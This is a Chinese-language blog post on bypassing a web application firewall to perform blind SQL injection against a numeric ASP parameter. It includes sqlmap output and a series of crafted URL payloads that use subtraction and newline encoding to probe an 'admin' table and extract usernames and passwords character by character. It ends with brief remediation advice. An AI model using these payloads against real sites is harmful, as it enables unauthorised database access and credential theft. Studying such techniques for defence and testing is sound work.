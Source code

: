 Title: 使用运算符绕过WAF进行SQL注入
Date: 2014-07-04 06:22
Tags: SQL注入


此网站部署了一个简单的防注入程序，使用sqlmap和pangoli都测试过，无法注入，sqlmap测试结果如下。怎么能绕过呢，注入点属于一个数字型的，突然想到是否可以使用运算符绕过呢？

> ...

> [06:00:06] [INFO] testing 'Oracle inline queries'

> [06:00:06] [INFO] testing 'SQLite inline queries'

> [06:00:07] [INFO] testing 'MySQL > 5.0.11 stacked queries'

> [06:00:07] [INFO] testing 'PostgreSQL > 8.1 stacked queries'

> [06:00:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'

> [06:00:09] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'

> [06:00:10] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'

> [06:00:11] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'

> [06:00:11] [INFO] testing 'Oracle AND time-based blind'

> [06:00:12] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'

> [06:00:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'

> [06:00:20] [WARNING] using unescaped version of the test because of zero knowled

> ge of the back-end DBMS. You can try to explicitly set it using option '--dbms'

> [06:00:29] [WARNING] GET parameter 'ID' is not injectable

> [06:00:29] [CRITICAL] all tested parameters appear to be not injectable. Try to

> increase '--level'/'--risk' values to perform more tests. As heuristic test turn

> ed out positive you are strongly advised to continue on with the tests. Please,

> consider usage of tampering scripts as your target might filter the queries. Als

> o, you can try to rerun by providing either a valid value for option '--string'

> (or '--regexp')

> [*] shutting down at 06:00:29


#### **1、漏洞验证**

1.使用单引号，返回waf拦截信息，返回页面信息如下

![ALT TEXT](/static/images/add-injection-1.gif)


2.正常页面，返回页面信息如下

![ALT TEXT](/static/images/add-injection-2.gif)

3.使用运算符，返回页面信息如下，可以看出与正常页面返回信息不一样，因此可以判断存在数字型注入，工具是无能为力了，只能盲注

![ALT TEXT](/static/images/add-injection-3.gif)


#### **2、盲注方法**

1.猜表

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0acount(*)%0afrom%0aadmin)>0)

2.猜字段

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0acount(username)%0afrom%0aadmin)>0)
    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0acount(password)%0afrom%0aadmin)>0)

3.猜表中数据

猜长度

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0alen(username)%0afrom%0aadmin)>0)
    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0alen(password)%0afrom%0aadmin)>0)

猜内容

    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0aAsc(mid(username,1,1))%0afrom%0aadmin)>49)
    http://www.xxxxxx.com/kssz.asp?ID=1125-((select%0atop%0a1%0aAsc(mid(password,1,1))%0afrom%0aadmin)>49)

#### **3、修复方法**

防注入不能依靠外部的WAF程序就可以高枕无忧了，WAF程序不是万能的，还是得从网站本身的代码出发，才能彻底解决，一般方法如下

1.使用预编译的方法，防止sql语法结构由于用户输入而改变

2.针对数字型的注入其实很简单，做一次数据转换即可

3.针对字符型的过滤时需要考虑问题很多，建议采用已成熟的算法


